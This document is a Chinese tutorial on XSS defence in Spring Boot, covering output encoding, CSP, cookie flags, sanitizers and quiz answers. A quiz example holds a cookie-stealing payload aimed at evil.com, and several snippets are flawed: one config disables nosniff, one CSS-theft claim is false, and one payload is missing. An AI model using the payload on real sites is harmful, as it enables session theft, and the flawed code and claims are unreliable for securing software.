


很多人以为 XSS 防护很简单——把 `<` 变成 `&lt;` 就完了。确实，输出编码是 XSS 防护的基础，但实际场景远比这复杂。

想象一个场景：用户在评论中提交了一段 Markdown，Markdown 被转换为 HTML，你需要在 `<script>`、`onerror`、`<style>`、URL 参数、CSS 属性等多种上下文同时输出的场景下，正确地对每一处进行编码。你知道 HTML 上下文该用什么编码、URL 上下文该用什么编码、CSS 上下文又该用什么编码吗？

本文将系统性地讲解 XSS 防护的核心技术，帮助你建立完整的防护体系。

## 一、输出编码：XSS 防护的基石

### 1.1 为什么输出编码能防护 XSS

XSS 的本质是用户输入被当作代码执行。输出编码通过将特殊字符转换为安全的形式，确保浏览器将其当作数据而非代码处理。

```
用户输入：<script>alert('XSS')</script>

编码后输出：&lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt;

浏览器渲染：显示 <script>alert('XSS')</script>，而非执行脚本
```

### 1.2 不同上下文的编码方式

XSS 防护最关键的原则是：**根据输出上下文选择正确的编码方式**。

| 输出上下文 | 编码类型 | 特殊字符 |
|-----------|---------|---------|
| HTML 元素内容 | HTML 实体编码 | `<`, `>`, `&`, `"`, `'` |
| HTML 属性值 | HTML 实体编码 | `<`, `>`, `&`, `"`, `'`, 空格 |
| JavaScript 字符串 | JavaScript 转义 | `\` + 特殊字符, `'` |
| URL 参数 | URL 编码 | 非 ASCII + 特殊字符 |
| CSS 值 | CSS 转义 | `\`, `/`, `'`, `"`, 范围外 Unicode |



### 1.3 Java 实现：通用编码工具类

```java title="编码工具类"
import org.springframework.web.util.HtmlUtils;
import java.nio.charset.StandardCharsets;
import java.net.URLEncoder;

public class EncodingUtils {
    
    /**
     * HTML 上下文编码：防止 XSS
     */
    public static String htmlEncode(String input) {
        if (input == null) {
            return null;
        }
        return HtmlUtils.htmlEscape(input);
    }
    
    /**
     * HTML 属性上下文编码
     * 注意：属性值必须用双引号包裹
     */
    public static String htmlAttributeEncode(String input) {
        if (input == null) {
            return null;
        }
        // 双引号必须编码，防止属性逃逸
        return input
            .replace("&", "&amp;")
            .replace("<", "&lt;")
            .replace(">", "&gt;")
            .replace("\"", "&quot;")
            .replace("'", "&#x27;");  // 单引号也需要编码
    }
    
    /**
     * JavaScript 上下文编码
     */
    public static String javaScriptEncode(String input) {
        if (input == null) {
            return null;
        }
        StringBuilder sb = new StringBuilder();
        for (char c : input.toCharArray()) {
            switch (c) {
                case '\'':
                    sb.append("\\x27");
                    break;
                case '"':
                    sb.append("\\x22");
                    break;
                case '&':
                    sb.append("\\x26");
                    break;
                case '<':
                    sb.append("\\x3C");
                    break;
                case '>':
                    sb.append("\\x3E");
                    break;
                case '\\':
                    sb.append("\\\\");
                    break;
                default:
                    if (c < 0x20 || c > 0x7E) {
                        // 非 ASCII 字符使用 Unicode 转义
                        sb.append(String.format("\\u%04x", (int) c));
                    } else {
                        sb.append(c);
                    }
            }
        }
        return sb.toString();
    }
    
    /**
     * URL 上下文编码
     */
    public static String urlEncode(String input) {
        if (input == null) {
            return null;
        }
        try {
            return URLEncoder.encode(input, StandardCharsets.UTF_8.toString());
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    
    /**
     * CSS 上下文编码
     * CSS 转义使用反斜杠 + 十六进制
     */
    public static String cssEncode(String input) {
        if (input == null) {
            return null;
        }
        StringBuilder sb = new StringBuilder();
        for (char c : input.toCharArray()) {
            if (c < 0x21 || c > 0x7E || "\"<>".indexOf(c) >= 0) {
                sb.append(String.format("\\%06x", (int) c));
            } else {
                sb.append(c);
            }
        }
        return sb.toString();
    }
}
```

## 二、Spring Boot 中的 XSS 防护

### 2.1 全局 XSS 过滤器

Spring Boot 可以通过 Filter 实现全局 XSS 过滤：

```java title="XSS 过滤器"
import javax.servlet.*;
import javax.servlet.http.*;
import java.io.IOException;

public class XssFilter implements Filter {
    
    @Override
    public void doFilter(ServletRequest request, ServletResponse response, 
                         FilterChain chain) throws IOException, ServletException {
        HttpServletRequest httpRequest = (HttpServletRequest) request;
        chain.doFilter(new XssRequestWrapper(httpRequest), response);
    }
}

import org.apache.commons.text.StringEscapeUtils;

public class XssRequestWrapper extends HttpServletRequestWrapper {
    
    public XssRequestWrapper(HttpServletRequest request) {
        super(request);
    }
    
    @Override
    public String getParameter(String name) {
        String value = super.getParameter(name);
        return sanitize(value);
    }
    
    @Override
    public String[] getParameterValues(String name) {
        String[] values = super.getParameterValues(name);
        if (values == null) {
            return null;
        }
        return Arrays.stream(values)
            .map(this::sanitize)
            .toArray(String[]::new);
    }
    
    @Override
    public String getHeader(String name) {
        String value = super.getHeader(name);
        return sanitize(value);
    }
    
    private String sanitize(String input) {
        if (input == null) {
            return null;
        }
        // HTML 实体编码
        return StringEscapeUtils.escapeHtml4(input);
    }
}
```

### 2.2 Thymeleaf 模板引擎的自动转义

Thymeleaf 默认会对双花括号中的内容进行 HTML 转义：

```html title="Thymeleaf 安全示例"
<!-- 安全：th:text 会自动 HTML 转义 -->
<p th:text="${userComment}">这里会被转义</p>

<!-- 危险：th:utext 不会转义 -->
<p th:utext="${userComment}">危险！</p>
```

### 2.3 Spring Security 的安全 Header

```java title="Spring Security XSS 防护配置"
@Configuration
@EnableWebSecurity
public class SecurityConfig {
    
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            // XSS 防护 Header
            .headers(headers -> headers
                // 启用 XSS 过滤（浏览器会自动阻止）
                .xssProtection(xss -> xss
                    .enable(true)
                    .block(true))  // 阻止而非清理
                
                // 防止 MIME 类型嗅探
                .contentTypeOptions(contentType -> contentType.disable())
                
                // 禁用页面框架嵌入（防止点击劫持）
                .frameOptions(frame -> frame.deny())
                
                // CSP 策略
                .contentSecurityPolicy(csp -> csp
                    .policyDirectives("default-src 'self'; script-src 'self'; object-src 'none'")));
        
        return http.build();
    }
}
```

## 三、内容安全策略（CSP）

### 3.1 CSP 简介

CSP 是一种额外的安全层，用于检测并削弱某些特定类型的攻击，特别是 XSS 和数据注入攻击。

**工作原理**：服务器返回 `Content-Security-Policy` HTTP Header，浏览器根据策略决定哪些资源可以加载和执行。

### 3.2 CSP 指令详解

| 指令 | 说明 | 示例 |
|------|------|------|
| `default-src` | 默认来源 | `'self'` |
| `script-src` | JavaScript 来源 | `'self'`, `'nonce-xxx'` |
| `style-src` | CSS 来源 | `'self'`, `'unsafe-inline'` |
| `img-src` | 图片来源 | `'self'`, `https://cdn.com` |
| `connect-src` | AJAX/WebSocket | `'self'`, `https://api.com` |
| `font-src` | 字体来源 | `'self'`, `https://fonts.gstatic.com` |
| `frame-src` | iframe 来源 | `'none'` |
| `object-src` | Flash/插件 | `'none'` |
| `report-uri` | 违规报告地址 | `/csp-report` |

### 3.3 CSP 配置示例

```java title="Spring Boot 配置 CSP Header"
@Configuration
public class CspConfig {
    
    @Bean
    public FilterRegistrationBean<CspHeaderFilter> cspHeaderFilter() {
        FilterRegistrationBean<CspHeaderFilter> bean = new FilterRegistrationBean<>();
        bean.setFilter(new CspHeaderFilter());
        bean.addUrlPatterns("/*");
        return bean;
    }
}

public class CspHeaderFilter implements Filter {
    
    @Override
    public void doFilter(ServletRequest request, ServletResponse response, 
                         FilterChain chain) throws IOException, ServletException {
        HttpServletResponse httpResponse = (HttpServletResponse) response;
        
        String csp = buildCspPolicy();
        httpResponse.setHeader("Content-Security-Policy", csp);
        
        // 同时启用 Report-Only 模式测试
        String cspReportOnly = buildCspPolicy() + "; report-uri /csp-report";
        httpResponse.setHeader("Content-Security-Policy-Report-Only", cspReportOnly);
        
        chain.doFilter(request, response);
    }
    
    private String buildCspPolicy() {
        return String.join("; ",
            "default-src 'self'",
            "script-src 'self' 'nonce-{random}'",  // 使用 nonce
            "style-src 'self' 'nonce-{random}'",
            "img-src 'self' data: https://cdn.example.com",
            "connect-src 'self' https://api.example.com",
            "font-src 'self' https://fonts.gstatic.com",
            "object-src 'none'",
            "frame-ancestors 'none'",
            "base-uri 'self'",
            "form-action 'self'",
            "upgrade-insecure-requests"
        );
    }
}
```

### 3.4 CSP 的 nonce 机制

nonce（一次性数字）机制允许页面中特定的内联脚本执行：

```java title="nonce 过滤器"
public class NonceFilter implements Filter {
    
    public static final String NONCE_KEY = "csp-nonce";
    
    @Override
    public void doFilter(ServletRequest request, ServletResponse response, 
                        FilterChain chain) throws IOException, ServletException {
        HttpServletRequest httpRequest = (HttpServletRequest) request;
        HttpServletResponse httpResponse = (HttpServletResponse) response;
        
        // 生成一次性 nonce
        String nonce = generateNonce();
        httpResponse.setHeader("Content-Security-Policy", 
            "script-src 'self' 'nonce-" + nonce + "'");
        
        // 将 nonce 存入 request attribute，供模板使用
        httpRequest.setAttribute(NONCE_KEY, nonce);
        
        chain.doFilter(httpRequest, httpResponse);
    }
}
```

```html title="Thymeleaf 模板使用 nonce"
<!-- 带 nonce 的内联脚本可以执行 -->
<script th:inline="javascript" th:nonce="${#request.getAttribute('csp-nonce')}">
    console.log('This script can run because it has a valid nonce');
</script>

<!-- 没有 nonce 的内联脚本会被阻止 -->
<script>alert('This will be blocked');</script>
```

### 3.5 CSP 违规报告

```java title="CSP 违规报告端点"
@RestController
public class CspReportController {
    
    private static final Logger logger = LoggerFactory.getLogger(CspReportController.class);
    
    @PostMapping("/csp-report")
    public void reportCspViolation(@RequestBody CspReport report) {
        // 记录违规日志
        logger.warn("CSP Violation: {}", report);
        
        // 告警通知（可选）
        if (report.isSerious()) {
            alertSecurityTeam(report);
        }
    }
}

@Data
public class CspReport {
    private String documentUri;
    private String violatedDirective;
    private String originalPolicy;
    private String blockedUri;
    private String referrer;
    // ...
}
```

## 四、HttpOnly 与 SameSite Cookie

### 4.1 HttpOnly Cookie

设置 `HttpOnly` 标志后，Cookie 无法被 JavaScript 读取，从而防止 XSS 窃取 Cookie：

```java title="配置 HttpOnly Cookie"
@Configuration
public class CookieConfig {
    
    @Bean
    public CookieSerializer cookieSerializer() {
        DefaultCookieSerializer serializer = new DefaultCookieSerializer();
        
        // 启用 HttpOnly
        serializer.setUseHttpOnlyCookie(true);
        
        // 安全传输（HTTPS）
        serializer.setUseSecureCookie(true);
        
        // SameSite 属性
        serializer.setSameSite("Strict");
        
        return serializer;
    }
}
```

### 4.2 SameSite Cookie

SameSite 属性防止浏览器在跨站请求时发送 Cookie：

| 值 | 行为 |
|----|------|
| `Strict` | 完全禁止跨站请求发送 Cookie |
| `Lax` | 仅 GET 请求允许跨站发送（导航） |
| `None` | 允许跨站，但需要配合 `Secure` |

```java
// Spring Security 配置 SameSite
http.securityMatcher("/api/**")
    .csrf(csrf -> csrf
        .cookie(cookie -> cookie
            .sameSite("Lax")));

// 直接设置
response.setHeader("Set-Cookie", 
    "sessionId=abc123; Path=/; SameSite=Lax; HttpOnly; Secure");
```

## 五、富文本编辑器的 XSS 防护

### 5.1 挑战

富文本编辑器需要允许用户输入格式化的 HTML（如加粗、链接、图片），同时防止恶意脚本。

### 5.2 白名单 HTML 净化库

```java title="使用 OWASP Java HTML Sanitizer"
import org.owasp.html.PolicyFactory;
import org.owasp.html.Sanitizers;

public class HtmlSanitizer {
    
    /**
     * 定义安全的 HTML 策略
     */
    private static final PolicyFactory POLICY = new HtmlPolicyBuilder()
        // 允许的文本标签
        .allowElements("p", "br", "strong", "em", "b", "i", "u", "s",
                       "h1", "h2", "h3", "h4", "h5", "h6")
        
        // 允许的列表标签
        .allowElements("ul", "ol", "li")
        
        // 允许的代码标签
        .allowElements("code", "pre", "blockquote")
        
        // 允许链接（限制协议和属性）
        .allowAttributes("href").matching("^(https?|mailto):").onElements("a")
        .allowAttributes("target").onElements("a")
        .allowAttributes("rel").onElements("a")
        
        // 允许图片（限制来源）
        .allowAttributes("src").matching("^(https|data):").onElements("img")
        .allowAttributes("alt", "title", "width", "height").onElements("img")
        
        // 允许常见属性
        .allowAttributes("class", "id").onElements("*")
        
        // 禁止事件处理器
        .toFactory();
    
    /**
     * 净化用户输入的 HTML
     */
    public static String sanitize(String html) {
        if (html == null || html.isEmpty()) {
            return "";
        }
        return POLICY.sanitize(html);
    }
}
```

### 5.3 DOMPurify（前端净化）

```javascript title="使用 DOMPurify 净化 HTML"
<!-- 引入 DOMPurify -->
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.0/purify.min.js"></script>

<script>
    // 用户提交的 HTML
    const userHtml = '<p>Hello <script>alert("XSS")<\/script></p>';
    
    // 净化 HTML
    const cleanHtml = DOMPurify.sanitize(userHtml, {
        // 允许部分标签
        ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'a', 'img', 'ul', 'ol', 'li', 'code', 'pre'],
        
        // 允许部分属性
        ALLOWED_ATTR: ['href', 'src', 'alt', 'title', 'class', 'target'],
        
        // 强制 URL 协议白名单
        ALLOWED_URI_REGEXP: /^(?:(?:https?|mailto):|[^a-z]|[a-z+.\-]+(?:[^a-z+.\-:]|$))/i,
        
        // 删除样式（防止 CSS 注入）
        FORCE_BODY: false,
        
        // 添加额外的安全处理
        SANITIZE_DOM: true,
        KEEP_CONTENT: true
    });
    
    console.log(cleanHtml);
    // 输出: <p>Hello </p>
</script>
```

## 六、安全与功能的平衡

### 6.1 常见错误

| 错误做法 | 问题 | 正确做法 |
|---------|------|----------|
| 只过滤 `<script>` | 可以通过大小写混合、编码绕过 | 使用安全库做全面净化 |
| 只做前端净化 | 可被绕过（直接发请求） | 服务端必须做净化 |
| 允许所有标签 | 危险 | 白名单策略 |
| 允许 `style` | CSS 注入 | 禁用内联样式 |
| 使用 `dangerouslySetInnerHTML` | React 也可能 XSS | 使用安全的 Markdown 或净化库 |

### 6.2 React 的自动转义

React 默认会对 JSX 中的内容进行 HTML 转义：

```jsx title="React 自动转义"
function Comment({ userInput }) {
    // 安全：userInput 会被自动转义
    return <div>{userInput}</div>;
}

// 危险： dangerouslySetInnerHTML
function DangerousComment({ htmlContent }) {
    return <div dangerouslySetInnerHTML={{ __html: htmlContent }} />;
}
```

:::tip 防护原则总结
XSS 防护的核心原则：
1. **输入验证**：限制允许的字符和格式
2. **输出编码**：根据输出上下文选择正确的编码方式
3. **内容安全策略**：部署 CSP 作为纵深防御
4. **Cookie 安全**：使用 HttpOnly 和 SameSite 属性
5. **框架安全**：使用框架提供的安全特性
6. **净化库**：对于富文本场景，使用成熟的安全净化库
:::

## 思考题

**问题 1**：某系统在用户头像上传功能中，将用户选择的颜色名称（如 `red`, `blue`）直接嵌入到 CSS 中用于背景色。如果用户输入 `red; url('http://evil.com/steal?c=' + document.cookie)` 会发生什么？如何修复？

<details>
<summary>参考答案</summary>

**问题分析**：

这是一个 CSS 注入漏洞。当用户输入被直接拼接到 CSS 中时，可以注入任意 CSS 样式，甚至执行窃取操作。

**攻击原理**：

```css
/* 用户输入的"颜色" */
background-color: red; url('http://evil.com/steal?c=' + document.cookie);
/* 实际执行的 CSS */
background-color: red; 
url('http://evil.com/steal?c=' + document.cookie);
```

通过 CSS 注入，攻击者可以：
- 窃取页面上特定元素的文本内容（通过 background-image）
- 窃取 Cookie 和表单数据
- 页面篡改

**修复方案**：

```java
public class ColorValidator {
    
    // 白名单颜色
    private static final Set<String> ALLOWED_COLORS = Set.of(
        "red", "blue", "green", "yellow", "orange", 
        "purple", "pink", "brown", "black", "white",
        "gray", "grey", "cyan", "magenta", "navy"
    );
    
    private static final Pattern HEX_COLOR = Pattern.compile("^#[0-9A-Fa-f]{6}$");
    private static final Pattern RGB_COLOR = Pattern.compile("^rgb\\(\\d{1,3},\\s*\\d{1,3},\\s*\\d{1,3}\\)$");
    
    /**
     * 验证并返回安全的颜色值
     */
    public static String sanitizeColor(String input) {
        if (input == null) {
            return "transparent";
        }
        
        String color = input.trim().toLowerCase();
        
        // 白名单检查
        if (ALLOWED_COLORS.contains(color)) {
            return color;
        }
        
        // 十六进制颜色检查（严格格式）
        if (HEX_COLOR.matcher(color).matches()) {
            return color;
        }
        
        // RGB 颜色检查
        if (RGB_COLOR.matcher(color).matches()) {
            // 额外验证每个值在有效范围内
            String rgb = color.substring(4, color.length() - 1);
            String[] parts = rgb.split(",");
            for (String part : parts) {
                int value = Integer.parseInt(part.trim());
                if (value < 0 || value > 255) {
                    return "transparent";
                }
            }
            return color;
        }
        
        // 无效输入，返回安全默认值
        return "transparent";
    }
}
```

**使用示例**：

```java
@GetMapping("/profile")
public String profile(Model model, @RequestParam(defaultValue = "blue") String themeColor) {
    // 净化颜色值
    String safeColor = ColorValidator.sanitizeColor(themeColor);
    model.addAttribute("themeColor", safeColor);
    return "profile";
}
```

```html
<!-- 安全的 CSS 输出 -->
<div style="background-color: ${themeColor};">
    ...
</div>
```
</details>

**问题 2**：某电商网站的搜索功能允许用户搜索商品，但搜索历史会显示在页面上供用户快速选择。如果用户搜索了一段包含 `` 的内容，并被保存为搜索历史，后续访问该页面的用户是否会遭受 XSS 攻击？系统应该如何防护？

<details>
<summary>参考答案</summary>

**问题分析**：

是的，这确实是一个存储型 XSS 漏洞。搜索历史的显示需要特别注意，因为：

1. 搜索历史被持久化存储
2. 每次访问页面都会展示搜索历史
3. 任何访问该页面的用户都会触发 XSS

**攻击流程**：



**防护方案**：

**方案一：输出编码（根本防护）**

```java
@GetMapping("/search-history")
public List<String> getSearchHistory(HttpSession session) {
    List<String> history = getSearchHistoryFromSession(session);
    // 返回前转义（JSON API 场景）
    return history.stream()
        .map(EncodingUtils::htmlEncode)
        .collect(Collectors.toList());
}
```

**方案二：输入验证 + 转义（双重防护）**

```java
@PostMapping("/search")
public String search(@RequestParam String keyword, HttpSession session) {
    // 输入验证：只允许安全字符
    String sanitizedKeyword = sanitizeKeyword(keyword);
    
    // 保存到历史记录
    List<String> history = getSearchHistory(session);
    history.add(0, sanitizedKeyword);  // 添加到开头
    if (history.size() > 10) {
        history = history.subList(0, 10);  // 限制数量
    }
    session.setAttribute("searchHistory", history);
    
    // 执行搜索...
    return "search-results";
}

private String sanitizeKeyword(String input) {
    if (input == null) {
        return "";
    }
    // 限制长度
    if (input.length() > 100) {
        input = input.substring(0, 100);
    }
    // HTML 转义
    return EncodingUtils.htmlEncode(input);
}
```

**方案三：前端转义（最后防线）**

```javascript title="前端搜索历史展示"
async function loadSearchHistory() {
    const history = await fetch('/api/search-history').then(r => r.json());
    
    const container = document.getElementById('search-history');
    
    history.forEach(keyword => {
        const item = document.createElement('div');
        item.className = 'history-item';
        
        // 正确做法：创建文本节点，而非 innerHTML
        const text = document.createTextNode(keyword);
        item.appendChild(text);
        
        // 如果需要绑定点击事件
        const clearBtn = document.createElement('button');
        clearBtn.textContent = '×';
        clearBtn.onclick = () => removeHistory(keyword);
        
        item.appendChild(clearBtn);
        container.appendChild(item);
    });
}

// 或者使用 textContent
function renderKeyword(keyword) {
    const div = document.createElement('div');
    div.className = 'keyword';
    // textContent 会自动转义，阻止 XSS
    div.textContent = keyword;
    return div;
}
```

**推荐：组合多层防护**

1. **服务端输入验证**：限制搜索关键词的长度和字符集
2. **服务端输出转义**：保存时转义，输出时也转义
3. **前端安全编程**：使用 `textContent` 而非 `innerHTML`
4. **CSP 策略**：即使绕过前几层，也能阻止执行

```java title="综合防护示例"
@Service
public class SearchService {
    
    private static final Pattern SAFE_KEYWORD = Pattern.compile("^[a-zA-Z0-9\\s\\-\\u4e00-\\u9fa5]{1,100}$");
    
    public String saveAndSearch(String keyword) {
        // 1. 验证输入
        if (!SAFE_KEYWORD.matcher(keyword).matches()) {
            throw new IllegalArgumentException("Invalid keyword");
        }
        
        // 2. 长度限制
        if (keyword.length() > 100) {
            keyword = keyword.substring(0, 100);
        }
        
        // 3. 保存到历史（不转义存储）
        saveToHistory(keyword);
        
        // 4. 执行搜索
        return search(keyword);
    }
    
    public List<String> getHistory() {
        List<String> history = fetchHistory();
        // 4. 返回时转义（JSON API 场景）
        return history.stream()
            .map(this::escapeForJson)
            .collect(Collectors.toList());
    }
    
    private String escapeForJson(String input) {
        return input
            .replace("\\", "\\\\")
            .replace("\"", "\\\"")
            .replace("\n", "\\n")
            .replace("\r", "\\r")
            .replace("\t", "\\t");
    }
}
```
</details>
